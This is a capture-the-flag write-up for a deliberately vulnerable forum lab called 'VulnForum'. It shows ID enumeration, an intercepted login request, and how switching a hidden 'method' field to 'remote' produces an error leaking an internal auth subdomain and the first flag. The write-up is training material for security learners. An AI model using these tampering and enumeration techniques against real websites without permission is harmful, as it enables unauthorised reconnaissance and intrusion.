 # VulnForum

http://www.vulnforum.co.uk/ - 4 flags to find

Front page shows us

![forums](./images/vulnforum-01.png)

Links are
- Public Notices - /1
- Comment - /1/1
- toby - /user/1ac9c036aaf12a755084dc6a326ed7f5

In order these are the pages shown

![/1](./images/vulnforum-02.png)

![/1/1](./images/vulnforum-03.png)

![toby](./images/vulnforum-04.png)

So questions:
1. Are there more hidden forums apart from public notices?
2. Are there more hidden comments in the public notices forums?
3. Are there more users than just toby?
4. What format is toby's ID? Looks like MD5 hash?

<ins>1. Are there more hidden forums apart from public notices?</ins>

I tried in the range 1-200 and only 1 returned a 200 OK response

<ins>2. Are there more hidden comments in the public notices forums?</ins>

Again going in the range 1-200 only 1 returned a 200 OK response within the public notices forum

<ins>3. Are there more users than just toby?
4. What format is toby's ID? Looks like MD5 hash?</ins>

I'll take these questions together, so yes according to the hash-id python script this is an MD5 hash. Are there more users? Not sure yet I can't seem to swap the hash for a number....

Moving on for now, there's a login page let's look at that.

Using toby as our user name we can observe this request

```
POST /login HTTP/1.1
Host: www.vulnforum.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 36
Origin: http://www.vulnforum.co.uk
Connection: close
Referer: http://www.vulnforum.co.uk/login
Cookie: ctfchallenge=xxx

username=toby&password=&method=local
```

This is triggered by a click event on the login button

```javascript
$('.loginBtn').click( function(){

    $.post( "/login", {
        'username'  :   $('input[name="username"]').val(),
        'password'  :   $('input[name="password"]').val(),
        'method'    :   $('input[name="method"]').val(),
    },function( data ) {
        alert( data.display_msg );
        window.location.href = '/';
    }).fail(function(err){
        alert( err.responseJSON.display_msg );
    });
});
```

And the response

```
HTTP/1.1 401 Unauthorized
server: nginx/1.21.1
date: Sun, 05 Jun 2022 19:22:44 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnforum.co.uk
connection: close
Content-Length: 65

{"display_msg":"Invalid Username or Password","technical_msg":""}
```

Method seems a bit weird, it's a hard coded hidden input field in the HTML

```html
<input name="method" type="hidden" value="local" class="form-control">
```

Let's try changing it to remote in Burp Repeater. Here's the response

```
HTTP/1.1 403 Forbidden
server: nginx/1.21.1
date: Sun, 05 Jun 2022 19:33:06 GMT
content-type: application/json
set-cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTBkalJsY1hsa2VDSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiIyYzE2MGJkOWI0ZDBkYmE5NDRjYjM5MGVjMDcwYWZhYiJ9; Max-Age=2592000; Path=/; domain=.vulnforum.co.uk
connection: close
Content-Length: 187

{"display_msg":"Server Error","technical_msg":"Server \"http:\/\/4v4eqydx.auth.vulnforum.co.uk\/auth\" responded with a 404 error","flag":"[^FLAG^XXXXXXXXXXXXXXXXX^FLAG^]"}
```

Wooo that's flag no. 1 done :)

It also revealed a hidden subdomain with a path ```http://4v4eqydx.auth.vulnforum.co.uk/auth``` let's visit that

![invalid domain](./images/vulnforum-05.png)

OK, well it responded with content so it can't be that invalid surely? Let's try some content discovery from the root path